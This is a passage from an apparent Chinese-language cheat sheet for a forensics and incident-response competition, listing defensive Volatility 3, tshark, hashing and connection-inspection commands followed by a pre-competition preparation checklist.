# 快速計算受疑檔案之 SHA256
sha256sum /path/to/suspicious_file
```
```powershell
# Windows 查看連線與所屬 PID
netstat -ano | findstr ESTABLISHED

# 查看特定 PID 對應進程
Get-Process -Id <PID> | Select-Object Id, ProcessName, Path, CommandLine
```

### 2. Volatility 3 萬用速查
```bash
# 進程樹
python3 vol.py -f mem.raw windows.pstree
# 代碼注入掃描
python3 vol.py -f mem.raw windows.malfind
# 提取命令列
python3 vol.py -f mem.raw windows.cmdline
# 導出記憶體進程 Dump
python3 vol.py -f mem.raw -o ./dump windows.dumpfiles --pid <PID>
```

### 3. Tshark 流量極速提取
```bash
# 統計前 10 大連線對象
tshark -r net.pcap -q -z conv,ip
# 提取 DNS 解析清單
tshark -r net.pcap -Y "dns.flags.response == 1" -T fields -e dns.qry.name -e dns.a
# 匯出所有 HTTP 傳輸檔案
tshark -r net.pcap --export-objects "http,./extracted_files"
```

---

## 🎒 賽前 24 小時整備清單 (Checklist)

- [ ] **筆電硬體與虛擬機**：每位隊員筆電配置至少 16GB RAM + 100GB SSD 空間，預裝最新 VMware / VirtualBox。
- [ ] **離線映像檔準備**：
  - [ ] REMnux (惡意軟體逆向分析系統)
  - [ ] Kali Linux (備妥 Wireshark, Tshark, Zeek, Volatility 3, YARA, Binwalk, Ghidra)
  - [ ] Windows 10/11 分析機 (預裝 Eric Zimmerman 工具集、Timeline Explorer、CyberChef 離線版)
- [ ] **Docker 應急備援**：本機建好 Splunk Enterprise 容器鏡像，能在無外網時 1 分鐘內啟動本地 Log 分析環境。
- [ ] **通訊與共享環境**：離線區域網路或私人頻道配置完成，共享協同時間線模板就緒。
- [ ] **隊員身心狀態**：全員在前一晚 23:00 前就寢，確保比賽當天擁有極致專注力與敏銳判斷力。

